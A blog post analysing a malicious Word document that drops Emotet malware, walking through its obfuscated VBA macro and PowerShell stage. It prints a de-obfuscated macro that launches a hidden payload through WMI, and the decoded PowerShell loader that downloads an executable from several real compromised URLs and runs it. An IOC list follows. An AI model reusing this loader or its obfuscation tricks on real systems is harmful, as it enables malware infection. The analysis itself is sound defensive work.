





 ---
title:  "Anatomy of an Emotet Word Document dropper"
layout: post
---

This blog post presents an analysis of the Visual Basic macro contained in a Word doc samples that drops Emotet malware.


## Intro

Sample hash is `a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229`

[Link](https://www.virustotal.com/gui/file/a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229/detection) to Virus Total



## First step
Instead of using tools like `oledump` or `olevba`, I went straight into analysing the doc inside a Windows 10 virtual machine and Microsoft Office Pro 2016.

Once opened the documents states that it was created with an old version of Office and that because of that macros should be activated ¯\\_(ツ)_/¯



Upon inspecting macros in VBA Dev tab, we can see that it's heavily obfuscated.



Note the presence of `Document_Open` function. The macro is executed as soon as you click Allow Content. Once executed, you only see a Powershell window popping up for a fraction of a second.

## De-obfuscation

After spending some time reading through the code in Form `Ykd6l9_zi2__37zjve`, I noticed that most of the code is just garbage code designed to bloat the file, confuse AVs, annoy people, etc...

Especially, the following snippet is repeated all over the file and does nothing, it can be removed.

```vb
   CiXQnDJBd = "pwYjWjkWqMLGO"
awUlmLRhHwj = Mid(CiXQnDJBd, 6, 2)
iATYEK = awUlmLRhHwj
IhfXtbz = "5kzblYaszWGS6C8wP"
CqAXzOw = Mid(IhfXtbz, 7, 2)
qGwwHwGRWwc = CqAXzOw
FjzwaUEc = "lR4v8TckukXnjZzYVazU7N0zURNjRB5 GkTc"
PhdRzEcmb = Mid(FjzwaUEc, 34, 1)
TXGWj = PhdRzEcmb
GOJAhhJQ = "TtpYhM8PRobn1z"
TNiODEzMPti = Mid(GOJAhhJQ, 12, 1)
SuLoW = TNiODEzMPti
wMKCEhZ = "qbGkg4sfPK7aDcv wSI763KTZI9Ocw"
StoqvC = Mid(wMKCEhZ, 4, 2)
MVqFdiDrZl = StoqvC
mRHDhUz = "C86dCiz9L1aqWb TCzEKEPQk4jaWNz4asUJRcSb"
mMdPn = Mid(mRHDhUz, 14, 2)
hjFXDTC = mMdPn
SCEHz = " FwJGjE2jwuVqatGL6fjRm8OlpWpdK O"
NujiUqzEvvd = Mid(SCEHz, 9, 2)
bdpoDPnYFoW = NujiUqzEvvd
wiVhdXmuM = "2jRUXp8LDdPp"
hNdzoTao = Mid(wiVhdXmuM, 10, 1)
YinaPinc = hNdzoTao
tijOoKE = "uiUJHIsW0heVrJqZ2Av"
DFzquY = Mid(tijOoKE, 11, 1)
ZzRGXsD = DFzquY
ADKczCz = "PIwbFGdbpAK"
MrlWLsJVb = Mid(ADKczCz, 7, 1)
PbpdzBhVhEz = MrlWLsJVb
kcavkHimhnl = "wuERbzzKZ4eaz1jrjk5r4vsnmcEL5hZ"
jTnHazsDJNo = Mid(kcavkHimhnl, 11, 1)
FFXqSfthA = jTnHazsDJNo
```

The bad actors use and abuse the fact that if a variable is not declared in VBA, the variable is silently ignored. In the following snippet, `Kq3e6z7gdybg6` resolves to nothing. So `Df9kbnm9eaon3` is equal to 's' (`Q1zrtzyq6us9a` is `90`)
```powershell
Df9kbnm9eaon3 = Kq3e6z7gdybg6 + Chr$(Q1zrtzyq6us9a + (25))
```

Another interesting trick is presented below.
```vb
E_kbz3s_b5rg6n = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + Df9kbnm9eaon3 + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + Ykd6l9_zi2__37zjve.O2a2ey1hmvf + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
```

`Ykd6l9_zi2__37zjve` reference the Form, and `O2a2ey1hmvf` reference the `ComboBox` inside the form. The box is set to letter `P`.



Some elements inside `UserForm1` are useless, and some are used to retrieve parts of obfuscated strings, in order to rebuild then inside the code.

### Result
I am going to pass on describing to long and annoying process of de-obfuscating the code.

```vb
Function Entry()
    On Error Resume Next

    objString = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + "s" + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + "P" + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
    objString_decoded = __DecodeObjString(objString)

    Set OLEObject = CreateObject(objString_decoded) ' --> winmgmts:win32_Process

    objString_decoded2 = objString_decoded + "tar" + "tu")
    objString_decoded3 = objString_decoded2 + "P" ' --> winmgmts:win32_ProcesstartuP

    Set Ydsu1vp_xnr8bd = _SetShowWindow(objString_decoded3)
    Jcsxtidm8cuwxfdg6n = Array(useless + "useless" + useless, useless, [OLEObject].Create(__DecodePowershell, useless, useless), useless + "useless")

End Function

Function _SetShowWindow(input)
    On Error Resume Next

    Set _SetShowWindow = CreateObject(input)
    [_SetShowWindow]. _
        showwindow = wdKeyEquals - wdKeyEquals

End Function

Function __DecodeObjString(input)
    On Error Resume Next

    tmpsplit = CleanString(input)
    ret = Split(tmpsplit, "2vhaghsghf")
    __DecodeObjStringtmp = [Join](ret, useless)
    __DecodeObjString = __DecodeObjStringtmp

End Function

Function __DecodePowershell()
    On Error Resume Next

    Set encodedPsPayload = CurrentDoc.InlineShapes.Item(1)
    __DecodePowershell = __DecodeObjString(encodedPsPayload.AlternativeText) ' Inside AltText when right click -> Picture

End Function
```

The strings are de-obfuscated by splitting them following the same pattern.
```vb
ret = Split(tmpsplit, "2vhaghsghf")
```

The final `powershell` payload is hidden inside the pictures presented to the user when opening the document, and is de-obfuscated by splitting the string with `2vhaghsghf`



The final macro payload can be reduced to the following snippet.
```vb
Set OLEObject = CreateObject("winmgmts:win32_Process")
[OLEObject].Create(__DecodePowershell, null, null)
```

### _SetShowWindow
This function is supposed to set `_SetShowWindow` option of `winmgmts:win32_ProcesstartuP` to `0`, but it doesn't seem to work.

## Powershell
The `powershell` payload is `base64` encoded. Interestingly, before encoding to `base64` a `null` (\x00) char is placed between each characters of the powershell source code. The `base64` decode function of powershell, `[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($BASE64))` treats null char as **space**. So the actual decoded payload is a valid powershell source code.

```powershell
> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("QQBB"))
> A B
```

```python
>>> decodedBytes = base64.urlsafe_b64decode("QQBB")
>>> str(decodedBytes, "utf-8")
'A\x00A'
```

Strings and function calls are obfuscated using different techniques. Powershell is not really case sensitive for function calls.

```powershell
[Net.ServicePointManager]::"sE`c`UrI`Ty`prot`ocOL" =(('tl'+'s')+('1'+'2,t')+'l'+('s1'+'1,tl')+s');

$Oht57tr=.('new-ob'+'j'+'et')nET.weBclIEnt;
```

### Decoded powershell payload

Decoded, de-obfuscated and cleaned.
```powershell
.('new-item')$eNv:uSErpROFile\PfnoyhG\w2lwD2_\ -itemtype DIREcTORy;

[Net.ServicePointManager]::"sEcUrITyprotocOL"='tls12,tls11,tls');

$Ra85g8d=$env:userprofile+(('BFPfnoyhglBFW2lwd2_lBF')."repLace"(([CHaR]108+[CHaR]66+[CHaR]70,[StrIng][CHaR]92))+'Pcy7xg6'+('.exe'));

$Oht57tr=.('new-objet')nET.weBclIEnt;

$U27o44j=(('https://blueyellowshop.com/wp-includes/mihae8A/*http://kingsalmanqurn.com/wp-content/wuPyeI/*https://dagranitegiare.com/wp-admin/Z21r6R/*http://acontarborreguitos.com/acontarborreguitos/I/*http://atenaclinicaesegurancadotrabalho.com/cgi-bin/NlMH/*http://digitalbazar.com/wp-admin/RVEzrK/*https://byc-center.com/wp-admin/Z4r/'))."sPlit"([char]42);

foreach($Hz7jbau in $U27o44j)
{
    try
        {
        $Oht57tr."DownLOA`DFILE"($Hz7jbau,$Ra85g8d);
        $X2iepix=('Fvoxr2g'));
        If((.('Get-Item')$Ra85g8d)."LeNGTh" -ge 20136)
            { 
                & ('Invoke-Item')($Ra85g8d);
                break;
            }
        } 
    catch{}
}

```

## IOCs

`blueyellowshop[.]com`   
`kingsalmanqurn[.]com`   
`dagranitegiare[.]com`   
`acontarborreguitos[.]com`   
`atenaclinicaesegurancadotrabalho[.]com`   
`digitalbazar[.]com`   
`byc-center[.]com`   


